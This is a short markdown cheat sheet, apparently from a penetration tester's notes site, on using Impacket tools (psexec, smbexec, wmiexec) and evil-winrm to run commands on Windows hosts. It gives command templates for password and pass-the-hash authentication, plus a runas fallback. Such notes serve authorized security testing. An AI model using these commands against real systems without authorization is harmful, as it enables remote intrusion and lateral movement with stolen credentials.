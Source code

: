 ```yaml
---
title: Impacket
parent: General Usage
layout: default
nav_order: 11
---
```


## Password available:
1. PSExec (will be using nt authority/system if admin):`impacket-psexec 'domain/user:password'@IP`
2. SMBExec: `impacket-smbexec "Domain/User:pass"@IP`\
   (local auth put a `.` for domain)
3. WMIExec: `impacket-wmiexec domain/user:pass@IP`\
   (local auth put a `.` for domain)
4. Evil-winrm: `evil-winrm -i targetIP -u user -p pass`

## Hash available:
1. PSExec: `impacket-psexec -hashes aaa:bbb "Domain/User"@IP`\
   (local auth put a `.` for domain)
2. SMBExec: `impacket-smbexec -hashes aaa:bbb "Domain/User"@IP`\
   (local auth put a `.` for domain)
3. WMIExec: `impacket-wmiexec -hashes aaa:bbb "Domain/User"@IP`\
   (local auth put a `.` for domain)
4. Evil-winrm (not really but put here): `evil-winrm -u user -H hash -i targetIP`
5. If no LM hashes, can either put 32 0s (`00000000000000000000000000000000`) or just use `:NThash`.

If everything fails, use `runas /env /profile /user:domain\user "command to run"`